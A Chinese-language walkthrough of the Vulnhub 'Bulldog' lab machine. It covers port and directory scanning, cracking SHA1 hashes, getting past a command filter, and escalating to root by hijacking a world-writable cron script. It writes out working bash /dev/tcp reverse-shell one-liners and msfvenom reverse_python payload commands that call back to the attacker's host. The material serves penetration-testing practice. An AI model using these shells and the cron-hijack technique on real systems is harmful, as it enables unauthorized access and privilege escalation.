

51CTO的网课，本篇利用nmap搜索开放端口，nikto、dirb挖掘敏感目录找到一个登陆界面和一个测试界面，审计源代码，破解用户名和口令登陆后台，使用命令测试界面执行反弹shell，得到低权用户权限，后面一种是审计代码猜出root口令(太有CTF内味了)，另一种是正常方法，审计代码查询定时任务，篡改定时任务源码，反弹得到root权限，获得flag。本文两种方式均有展示，后面的方法找遍全网，才从油管上一个西班牙小哥的视频里学到细节，难道大家都这么爱猜的吗？

本篇使用工具sparta(已改名legion)，metasploit。

<!-- more -->

# 使用命令

## 反弹shell

``` bash
bash -i >& /dev/tcp/[ip]/[port] 0>&1
#bash -i	产生一个交互式bash
#>& /dev/tcp/ip/port	建立TCP连接，并将标准输出和错误重定向到TCP连接
#0>&1	从TCP连接获取输入
```

如果使用msfvenom则是：

``` bash
msfvenom -p cmd/unix/reverse_python lhost=[ip] lport=[port] -f raw > shell.py 
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，两个web服务，不过`80`口和`8080`口服务一样，`dirb`挖掘`80`端口web信息，找到后台登录界面和测试界面：

``` bash
nmap -sV 192.168.2.222
dirb http://192.168.2.222
```


2. 后台弱口令登不上，打开测试界面，没有权限，审计源码，可以看到SHA1加密的口令信息：


3. 上网站`crackstation.neet`破解，出来俩密码(这个本地john也能破解，不过只能出一个)：



4. 登陆了后台，没什么操作的权限，但是测试界面的shell可以用了，有些不允许使用的命令也可以绕过检测，下面列举几种绕过检测的方式：


5. 绕过检测反弹个shell回来，不过是低权的：

``` bash
echo 'bash -i >& /dev/tcp/192.168.2.205/4444 0>&1' | bash
```


6. 切到**bulldogadmin**用户目录下，找着一个隐藏的敏感目录，打开里面有俩文件：


7. **note**文件就是一些提示，一个点是文件夹下另一个文件有敏感信息，另一个点事建议往web方向探索，使用`cat`查看另一个文件各种乱码，换`strings`来看：


8. 就这么猜出来了root密码，拿到flag，我也是佛了，看作者留下来的信息，肯定还有正常的方式来拿到root权限，不是靠猜：


9. 重新再来，这次不猜密码，查看定时任务，找到一个非常可疑的任务`runAV`：


10. 这个任务是每隔1分钟以root用户执行一次`/.hiddenAVDirectory/AVApplication.py`，然而这个py文件是任何人都可以修改执行的：


11. msfvenom生成反弹shell，这里我一般使用的`pyhton/meterpreter/reverse_tcp`这个payload不好使，靶机执行不了。换成油管西班牙小哥用的`cmd/unix/reverse_python`就可以了，但是也得编辑把`import`去了，后面再加个`decode`，不然靶机import不了包还是报错：

``` bash
msfvenom -p cmd/unix/reverse_python lhost=192.168.2.205 lport=4443 -f raw > shell.py 
```


12. 到靶机上，因为没有完整的bash，所以vim用不了，只能把代码echo进去，注意代码里的`"`前面要加`\`：

``` bash
echo "text\"text\"text" > shell.py
```


13. metasploit里开启监听，一分钟左右反弹回了root权限的shell，这才是正道啊，猜密码都是邪道（滑稽）：


14. 哦对，忘了这期视频是教集成工具**sparta**，这个探出来的信息其实也不是很全，不过胜在方便，现在改名**legion**了，下面贴张扫描图：


# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [【youtube】Fernando Pinheiro - Vulnhub Bulldog - Como hackear a vm.](https://www.youtube.com/watch?v=sqx3MDUnEpc&t=2s)